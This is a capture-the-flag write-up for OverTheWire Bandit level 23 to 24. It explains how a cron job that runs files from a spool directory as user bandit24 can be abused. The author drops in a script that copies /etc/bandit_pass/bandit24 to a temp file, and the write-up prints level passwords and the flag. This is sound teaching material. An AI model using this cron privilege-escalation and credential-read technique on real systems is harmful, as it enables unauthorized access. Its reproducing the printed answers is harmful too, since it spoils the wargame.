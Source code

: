 # CTF Writeup - **OverTheWire Bandit23 - Bandit24**

**Author**: spiketyson  

---

## Challenge Details

- **Challenge Name:** Bandit23 - Bandit24
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 22-11-2024

---

## Summary

This challenge is the level23 for the Bandit series on OverTheWire, focusing on basic Linux command-line skills. A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.  This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!. Keep in mind that your shell script is removed once executed, so you may want to keep a copy around
---

## Approach

Since this is an easy challenge, I planned to use basic Linux commands like `ls`, `cat`, `cd`,`mktemp` to explore the server and retrieve the flag.

---

## Solution Walkthrough

Connect to the server using the `ssh` command as below:

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
# Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

After logging in, Lets explore the `/etc/cron.d` directory using ls command as shown below.

```bash
ls -la /etc/cron.d
# Output: 
# total 44
# drwxr-xr-x   2 root root  4096 Sep 19 07:10 .
# drwxr-xr-x 121 root root 12288 Sep 20 18:37 ..
# -rw-r--r--   1 root root   120 Sep 19 07:08 cronjob_bandit22
# -rw-r--r--   1 root root   122 Sep 19 07:08 cronjob_bandit23
# -rw-r--r--   1 root root   120 Sep 19 07:08 cronjob_bandit24
# -rw-r--r--   1 root root   201 Apr  8  2024 e2scrub_all
# -rwx------   1 root root    52 Sep 19 07:10 otw-tmp-dir
# -rw-r--r--   1 root root   102 Mar 31  2024 .placeholder
# -rw-r--r--   1 root root   396 Jan  9  2024 sysstat
```

Here we can find a file related to `bandit24`. As we are looking for `bandit24` password `cronjob_bandit24` seems interesting. lets see the contents of the file.  

```bash
cat cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

Cronjobs are programs run automatically at regular intervals. In Linux, there are multiple folders that can contain these cronjobs. We know that at regular interval `cronjob_bandit24` is being executed. Here we can see that `cronjob_bandit24` is executing the file `/usr/bin/cronjob_bandit24.sh`
Lets see the contents of this file. 

```bash
cat /usr/bin/cronjob_bandit24.sh
# #!/bin/bash
# myname=$(whoami)
# cd /var/spool/$myname/foo
# echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
# for i in * .*;
# do
#     if [ "$i" != "." -a "$i" != ".." ];
#     then
#         echo "Handling $i"
#         owner="$(stat --format "%U" ./$i)"
#         if [ "${owner}" = "bandit23" ]; then
#             timeout -s 9 60 ./$i
#         fi
#         rm -f ./$i
#     fi
# done
```

It looks like the `cronjob_bandit24.sh` is getting the current user information by execution `whoami` which in our case will be `bandit23`, with this name it moves a directory `/var/spool/bandit23/foo` in our case. Tries executing all the files that are present in the directory and the removes all the files in that directory so that no one can copy them. The idea here is that we can execute a script as `bandit24` if its copied to that location. Lets create a script that copies `bandit24` password and copies it to a text file in our temp directory. But this is only possible if it is executed by `bandit24`. First we need to create a temporary directory as we dont have permission to create any files in the local.  


```bash
mktemp -d 
# /tmp/tmp.KSblvOUbhU
cd /tmp/tmp.KSblvOUbhU
nano bandit24_password.sh
# #!/bin/bash
# cat /etc/bandit_pass/bandit24 > /tmp/tmp.KSblvOUbhU/password.txt
chmod 777 bandit24_password.sh
cp bandit24_password.sh /var/spool/bandit24/foo
```

We can see that aftere creating the file we need to make the file executable by giving necessary permissions. We can do that be using `chmod` as shown above. Then we need to copy this file to `/var/spool/bandit24/foo` as this is where the cronjob executes all the files with `bandit24` as owner in the directory and removes them. Once we can copied, we need to wait for 2 mins after that we can see a passowrd.txt file being created in our tempdirectory. Now we can explore the flag using `cat` command.

```bash
cat password.txt
# FLAG{gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8}
```

---

## Flag

**Flag:**  gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

---

## Lessons Learned
It was a good challenge that made me think how i should think like an attacker and how to exploit privelages.